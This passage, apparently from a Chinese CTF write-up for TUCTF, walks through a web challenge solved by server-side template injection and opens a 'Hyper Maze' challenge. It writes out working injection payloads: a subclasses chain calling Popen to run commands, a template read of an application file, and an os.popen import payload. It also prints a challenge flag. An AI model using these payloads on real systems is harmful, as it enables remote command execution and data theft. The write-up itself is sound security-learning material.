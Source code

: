 ![image-20221205195946330](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202212051959410.png?x-oss-process=hzy)

从而确定popen函数位于233

这个时候使用该函数去调用执行命令

`{{"".__class__.__mro__[1].__subclasses__()[233]("ls",shell=True,stdout=-1).communicate()}}`

但是发现还是报错了，这条路走到这是死掉了

![image-20221205200310946](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202212052003001.png?x-oss-process=hzy)

比赛结束后看老外的wp才知道原来我想复杂了，直接读app下的那个文件即可

`{{ open('/app/web2.py','r').read()}}`

![image-20221205200539561](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202212052005639.png?x-oss-process=hzy)

TUCTF{t0rnad0_1snt_v3ry_s3cur3}

还有一个payload是有效负载可以正常使用

`{% import os %}{{os.popen('ls').read()}}`

![image-20221205203919510](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202212052039568.png?x-oss-process=hzy)

![image-20221205204026918](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202212052040961.png?x-oss-process=hzy)

路径/parttwooftheproblem

cookie对应提示12957293 从而得到flag

![image-20221205204254454](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202212052042512.png?x-oss-process=hzy)

## Hyper Maze

> Welcome to my }HYPER{}MAZE{!
>
> Try to find out way out of my evil maze! There is a gift waiting for you at the end!

maze，是个迷宫题

![image-20221205204658391](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202212052046451.png?x-oss-process=hzy)

start之后就变成了这样

![image-20221205204824496](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202212052048569.png?x-oss-process=hzy)

看源码可以看到从一百到99跳转

![image-20221205205022438](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202212052050498.png?x-oss-process=hzy)



99->98跳转

![image-20221205205127006](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202212052051055.png?x-oss-process=hzy)
